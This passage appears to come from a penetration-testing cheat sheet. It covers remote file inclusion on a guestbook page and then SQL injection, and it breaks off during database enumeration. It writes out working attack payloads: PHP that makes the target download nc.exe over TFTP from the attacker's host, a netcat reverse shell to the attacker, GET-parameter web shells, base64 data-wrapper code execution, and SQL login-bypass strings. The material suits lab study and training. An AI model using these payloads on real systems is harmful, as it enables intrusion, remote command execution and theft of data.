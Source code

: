 Just like getting a shell with LFI, start the TFTP server and prepare "nc.exe". Also, prepare a malicious file called "evil.txt" and host it within the attacker's webserver and start apache with `service apache2 start`:
```
<?php echo shell_exec("tftp -i [kali ip] get nc.exe");?>
```
Call the webpage to include "evil.txt" and execute the PHP code within it to download "nc.exe" from our machine using `tftp`. It may take a sec to download:
```
http://192.168.1.23/addguestbook.php?name=hi&comment=&LANG=http://[kali ip]/evil.txt%00
```
Change "evil.txt" on the attacker's webserver to invoke the `nc.exe` command:
```php
<?php echo shell_exec("nc.exe [kali ip] [port] -e cmd.exe");?>
```
Prepare a listener and refresh the webpage to pop a reverse shell.

#### RFI Summary

Alternatively, to avoid constantly changing the php file, host this instead, and visit `http://192.168.1.23/addguestbook.php?name=hi&comment=&LANG=http://[kali ip]/evil.txt%00&cmd=whoami`. Change `cmd` to the command you want to execute:
```php
<?php echo shell_exec($_GET['cmd']);?>
```

```
# Data wrapper allows for direct code execution
param=data:text/plain,<?system($_GET['x']);?>&x=whoami
param=data:,<?system($_GET['x']);?>&x=whoami
param=data:;base64,PD9zeXN0ZW0oJF9HRVRbJ3gnXSk7Pz4=&x=ls
```

### SQL

#### Simple Authentication Bypass
```sql
select * from users where name='?' and password='?';
select * from users where name='wronguser' or 1=1;#' and password='?';
select * from users where name='wronguser' or 1=1 limit 1;#' and password='?'; # when server expects 1 result
```

#### Database Enumeration and Extraction
```sql
select * from comments where id=?;
select * from comments where id=738'; # test for sql injection
select * from comments where id=738 order by 6; # enumerate number of columns
